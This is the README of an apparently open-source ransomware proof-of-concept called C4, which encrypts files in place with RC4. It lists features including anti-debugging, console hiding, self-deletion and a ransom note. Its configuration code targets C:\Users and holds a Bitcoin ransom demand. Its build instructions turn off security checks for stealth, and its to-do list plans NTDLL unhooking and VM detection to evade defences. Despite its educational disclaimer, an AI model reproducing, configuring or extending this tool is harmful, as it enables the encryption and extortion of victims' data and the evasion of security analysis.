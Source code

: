 # C4

#### Compact Ransomware POC with Built-in Anti-Analysis


> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Can drop a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Optionally self-deletes the executable after finishing.  
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo-2.gif](https://i.postimg.cc/8cS0D1ZH/c4-demo-2.gif)](https://postimg.cc/WF5nwPLF)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
#pragma section(".text", read, execute)
// TRUE = Encrypt; FALSE = Decrypt
__declspec(allocate(".text")) BOOL   g_EncryptMode       = TRUE;

// TRUE = Drop a ransom note (g_Note)
__declspec(allocate(".text")) BOOL   g_RansomMode        = TRUE;

// TRUE = Hide the console window
__declspec(allocate(".text")) BOOL   g_HideConsole       = TRUE;

// TRUE = Exit immediately if a debugger is detected
__declspec(allocate(".text")) BOOL   g_AntiDebug         = TRUE;

// TRUE = Self-delete the EXE after finishing
__declspec(allocate(".text")) BOOL   g_SelfDelete        = TRUE;

// TRUE = Print each file encrypted, errors, and total runtime
__declspec(allocate(".text")) BOOL   g_Verbose           = FALSE;

// List of directories to process - final entry **must** be NULL
__declspec(allocate(".text")) LPCWSTR g_Directories[]    = {
    L"C:\\Users",
    NULL
};

// Ransom note text that will be written when g_RansomMode == TRUE
__declspec(allocate(".text")) const char* g_Note =
    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
    "This is not a joke. Want your data restored?\r\n"
    "Send 0.5 BTC to the address below:\r\n"
    "1MockBTCAddrxxxxxxxxxxxxxxxx\r\n"
    "You have 48 hours.\r\n";

// File extensions to skip (include the dot)
LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", 
    L".conf", L".cfg", L".reg", L".dat", 
    L".bat", L".cmd"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem if you need to see output in verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection

